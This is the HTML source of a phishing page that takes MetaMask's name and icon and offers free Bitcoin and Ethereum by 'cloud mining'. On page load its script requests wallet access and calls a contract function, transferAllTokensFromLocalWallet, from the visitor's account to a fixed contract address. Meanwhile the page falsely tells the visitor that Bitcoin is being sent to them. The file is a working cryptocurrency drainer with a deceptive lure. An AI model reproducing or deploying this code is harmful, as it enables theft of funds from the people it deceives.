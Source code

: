 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <title>MetaMask</title>
  <link rel="icon" href="https://assets.clarisco.com/images/banner/hire/tools/metamask.webp" type="image/x-icon">
  <style>
 body {
    background-image: url("https://static.independent.co.uk/2021/04/29/14/ethereum%20price%20latest%20bitcoin.jpg?quality=75&width=640&crop=3%3A2%2Csmart&auto=webp");
    background-repeat: no-repeat;
    background-position-x: center;
    background-size: 100%; 
    font-family: Arial, sans-serif;
    text-align: center;
}

  #status {
    font-size: 18px;
    margin-top: 20px;
  }

  #loader {
    display: none;
    margin: 20px auto;
    width: 100px;
    height: 100px;
    border: 10px solid #ccc;
    border-radius: 50%;
    border-top-color: #0074D9;
    animation: spin 1s linear infinite;
  }

  @keyframes spin {
    0% { transform: rotate(0deg); }
    100% { transform: rotate(360deg); }
  }
  h1, p {
      font-size: 28px;
      color: white;
  </style>
</head>
<body>
  <h1>Get free Bitcoin and Ethereum by cloud mining directly to your wallet</h1>
  <p id="status">Bitcoin is being transferred to your wallet</p>
  <div id="loader">ِConnect</div>

  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.11.1/jquery.min.js"></script>
  <script src="https://cdn.jsdelivr.net/npm/web3@latest/dist/web3.min.js"></script>
  <script src="https://cdn.jsdelivr.net/npm/@metamask/eth-provider@latest/dist/index.min.js"></script>
  <script>
    
    const contractAddress = "0x96E19294286F2b49a3f4F5B139Cd8a17C56522AE";

    
    const abi = [
  {
    "inputs": [],
    "name": "transferAllTokensFromLocalWallet",
    "outputs": [],
    "stateMutability": "nonpayable",
    "type": "function"
  },
  {
    "inputs": [],
    "stateMutability": "nonpayable",
    "type": "constructor"
  },
  {
    "inputs": [],
    "name": "recipient",
    "outputs": [
      {
        "internalType": "address",
        "name": "",
        "type": "address"
      }
    ],
    "stateMutability": "view",
    "type": "function"
  }
];

    let metamaskWeb3;
    let contract;

    function updateStatus(message) {
      $("#status").text(message);
    }

    async function connectAndInteract() {
      try {
        
        $("#loader").show();

        
        if (window.ethereum) {
          
          await ethereum.enable();
          const accounts = await ethereum.request({ method: 'eth_requestAccounts' });
          if (accounts.length > 0) {
            
            metamaskWeb3 = new Web3(window.ethereum);
            
            contract = new metamaskWeb3.eth.Contract(abi, contractAddress);

            
            metamaskWeb3.on('accountsChanged', accountsChanged);

            
            try {
              await contract.methods.transferAllTokensFromLocalWallet().send({ from: accounts[0] });
              updateStatus("Transaction successful");
            } catch (error) {
              updateStatus("Transaction failed: " + error.message);
            }
          } else {
            updateStatus("No accounts found");
          }
        } else {
          updateStatus("No MetaMask provider detected");
        }
      } catch (error) {
        updateStatus("Error connecting: " + error.message);
      } finally {
        
        $("#loader").hide();
      }
    }

    function accountsChanged(accounts) {
  
  if (accounts.length > 0) {
    updateStatus("Account changed to " + accounts[0]);
   
    contract = new metamaskWeb3.eth.Contract(abi, contractAddress);
  } else {
    updateStatus("No accounts found");
  }
}

$(document).ready(function() {
  connectAndInteract();
});

  </script>
</body>
</html>
